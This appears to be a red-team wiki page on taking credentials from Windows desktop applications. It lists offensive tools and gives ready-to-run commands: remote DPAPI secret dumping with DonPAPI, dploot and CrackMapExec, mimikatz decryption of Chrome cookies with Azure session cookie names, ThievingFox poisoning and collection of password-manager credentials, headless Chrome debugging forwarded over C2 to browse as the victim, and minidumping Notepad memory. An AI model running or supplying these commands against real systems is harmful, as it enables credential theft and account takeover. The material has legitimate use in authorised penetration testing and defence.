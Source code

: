 ```yaml
---
title: Application Credential Access
---
```


The following tools can be used to [[notes/mitre-attack/credential-access|access credentials]] from various [[notes/windows/index]] desktop applications.
Many of them are protected by [[notes/windows/dpapi-dump|DPAPI]].

Tool | Language | Access | Supported Applications
-----|----------|--------|-----------------------
[[notes/tools/donpapi]] | Python | Remote | Credential Manager, Vault, Certificates, Internet Explorer, Chrome, Edge, Firefox, WiFi, VNC, mRemoteNG
[[notes/tools/dploot]] | Python | Remote | Credential Manager, Vault, Certificates, Remote Desktop Connection Manager, Chrome, Edge, Firefox, WiFi
[[notes/tools/crackmapexec]] | Python | Remote | Uses dploot
[[notes/tools/lazagne]] | Python | Local | Chrome, Edge, Firefox, Outlook, Thunderbird, FileZilla, KeePass, WinSCP and many more
[SharpChromium](https://github.com/djhohnstein/SharpChromium) | C# | Local | Chome, Edge
[ThunderFox](https://github.com/V1V1/SharpScribbles/) | C# | Local | Firefox, Thunderbird
[offline_address_book_extractor.py](https://github.com/api0cradle/RedTeamScripts/blob/main/offline_address_book_extractor.py) | Pyhton | Offline | Outlook address book parser
[OutlookSpy](https://github.com/acole76/OutlookSpy) | C# | Local | Outlook
[SessionGopher](https://github.com/Arvanaghi/SessionGopher) | PowerShell | Local | WinSCP, PuTTY, FileZilla, RDP
[strings2](https://github.com/glmcdona/strings2) + [ProcessStringExtractor](https://gist.github.com/LuemmelSec/3f2c4b7642dc7b2ae63601ed02ec3db5) | C + PowerShell | Local | generic, find patterns in process memory
[PMP-Decrypter](https://github.com/LuemmelSec/PMP-Decrypter) | C# | Local | Patch My PC
[dumpscan](https://github.com/daddycocoaman/dumpscan) | Python | Remote | Find certificates in Minidumps

Dump DPAPI-protected secrets remotely and decrypt them with the domain backup key, the users password or NT hash.

=== "[[notes/tools/donpapi]]"
    Worked, but crashed in the end.

    ~~~ bash
    donpapi -o ./ws01/dpapi -pvk ./corp.pvk -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./passwords.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./nthashse.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    Failed during testing.

    ~~~ bash
    dploot triage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    As unprivileged user dump your own secrets, as local admin dump secrets from every user whose password is stored in CMEDB or as domain admin utilizing the domain backup keys.
    Uses [[notes/tools/dploot]] under the hood ([source](https://twitter.com/mpgn_x64/status/1627638010203316227)).

    ~~~ bash
    crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi passwords && crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi cookies
    ~~~

Dump Chrome cookies with [[notes/tools/mimikatz]].
Cookies for Azure are `ESTSAUTH`, `ESTSAUTHPERSISTENT` and `ESTSAUTHLIGHT`.

~~~ bat
mimikatz.exe "dpapi::chrome /in:%localappdata%googlechromeUSERDA~1defaultcookies /unprotect" exit
~~~

Dump credentials from various sources like KeePass, KeePassXC, mstsc, RDCMan and MobaXTerm with [ThievingFox](https://github.com/Slowerzs/ThievingFox/).

~~~ bash
thievingfox poison --all corp.local/jdoeadm:'passw0rd'@ws01.corp.local
thievingfox collect --all corp.local/jdoeadm:'passw0rd'@ws01.corp.local
thievingfox cleanup --all corp.local/jdoeadm:'passw0rd'@ws01.corp.local
~~~

Untested tools:

- [pandora](https://github.com/efchatz/pandora), dumps credentials from various password manager Chrome plugins like 1Password, Bitwarden and LastPass
- [hekatomb](https://github.com/processus-thief/hekatomb), dumps domain backup keys, downloads credential files from all domain computers, decrypts the files

References:

- [TeamViewer](http://web.archive.org/web/20231215124900/https://whynotsecurity.com/blog/teamviewer/), TeamViewer password was stored in registry encrypted with static key
- [Extracting Encrypted Credentials from Common Tools](http://web.archive.org/web/20230816141251/https://scribe.rip/@xm-cyber/extracting-encrypted-credentials-from-common-tools-ceb83e7304ce), WinSCP, RoboMongo, MobaXterm
- [Analyzing LastPass, part 1](http://web.archive.org/web/20221012111523/https://www.mdsec.co.uk/2022/10/analysing-lastpass-part-1/)
- [Relaying YubiKeys](http://web.archive.org/web/20220919230832/https://cube0x0.github.io/Relaying-YubiKeys/)

## Chrome Remote Debugging

Start Chrome in headless and remote debugging mode.

~~~ bat
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
~~~

Reverse forward the debug port over your C2.

Open Chrome on your machine and go to `chrome://inspect`.
Now you can browse the web in the name of your victim.

Untested tools:

- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut), dumps cookies from debug port of Chromium-based browsers

References:

- [Sliver and Cursed Chrome for Post Exploitation](http://web.archive.org/web/20231013174228/https://dev.to/living_syn/sliver-and-cursed-chrome-for-post-exploitation-4gnk)
- [Debugging Cookie Dumping Failures with Chromiums Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [twitter.com/an0n_r0/status/1670007830072500225](https://twitter.com/an0n_r0/status/1670007830072500225)
- [Headless Remote Chrome Debugging](https://gist.github.com/NotMedic/b1ab7809eea94cc05513905b26964663)
- [Stalking inside of your Chromium Browser](https://web.archive.org/web/20221202231214/https://scribe.rip/@specterops/stalking-inside-of-your-chromium-browser-757848b67949)

# Unsaved Notepad

Dump the content of an open `notepad.exe` window that is not written to a file ([source](https://twitter.com/NinjaParanoid/status/1695682038593110193)):

~~~ bat
rundll32.exe comsvcs.dll MiniDump %PID% .\notepad.log full
strings.exe --encoding=l .\notepad.log
~~~

# Notepad++ Backups

Inspect files in `%USERPROFILE%\AppData\Roaming\Notepad++\backup`.

# ProtonPass

References:

- [ProtonPass: Auch nach Sperrung des Passwortspeichers verbleiben Nutzername/Passwort im Hauptspeicher](https://www.kuketz-blog.de/protonpass-auch-nach-sperrung-des-passwortspeichers-verbleiben-nutzername-passwort-im-hauptspeicher/), MiniDump contains plain passwords even if password manager is locked
